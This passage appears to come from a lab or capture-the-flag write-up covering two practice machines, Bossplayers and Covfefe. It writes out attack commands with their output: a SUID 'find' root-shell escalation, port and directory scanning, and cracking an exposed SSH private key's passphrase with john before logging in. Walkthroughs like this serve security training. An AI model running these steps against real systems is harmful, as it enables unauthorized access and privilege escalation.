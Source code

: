 4. System enumeration: now run echo against $PATH to find all binaries file we have access and also if the machine contain some binaries that set with SUID that we can advantage, we find the `find` binary file with SUID set.
```
www-data@bossplayers:/var/www/html$ ls -la $(echo $PATH|tr ":" " ")|grep rws
ls -la $(echo $PATH|tr ":" " ")|grep rws
...
-rwsr-sr-x  1 root root     315904 Feb 16  2019 find
...
www-data@bossplayers:/var/www/html$
```

5. Privilege Escalation: going to `https://gtfobins.github.io/` to understand how to get root shell from the binary file we found, then found the way to execute `find` with the following to get root shell with `sh`.
```
www-data@bossplayers:/var/www/html$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
#
```

### Covfefe

1. Enumeration: run full port scan with rustscan and found that 22,80,31337 are open so run nmap against them and found that port 31337 is also web based, since ssh is on version 7.2, it better idea to run web enumeration against port 80 and 31337.

2. Web Fuzzing: run webenum with feroxbuster against each (80,31337) found more interesting directory on port 31337 which are .ssh, on that folder I was able to view private and public key and also the authorized keys in uses, so run wget

3. Trying Grabbing Shell: running the following ssh command with the private key.
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa simon@192.168.xxx.10 -p 22
Enter passphrase for key 'id_rsa':
since it's ask for password we need to crack that id_rsa.

4. Hash Cracking: convert id_rsa to john:
└─$ ssh2john ./id_rsa > id_rsa.hash
then run john:
└─$ john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
if it found the password, we also can view it by using:
└─$ john id_rsa.hash --show
./id_rsa:starwars

5. Shell Grabbing: running the ssh command again with the password we found for id_rsa we have shell on the target:
└─$ ssh -i id_rsa simon@192.168.189.10 -p 22
Enter passphrase for key 'id_rsa':
Linux covfefe 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u2 (2017-06-26) i686
....
Last login: Mon May 22 19:35:10 2023 from 192.168.45.212
simon@covfefe:~$
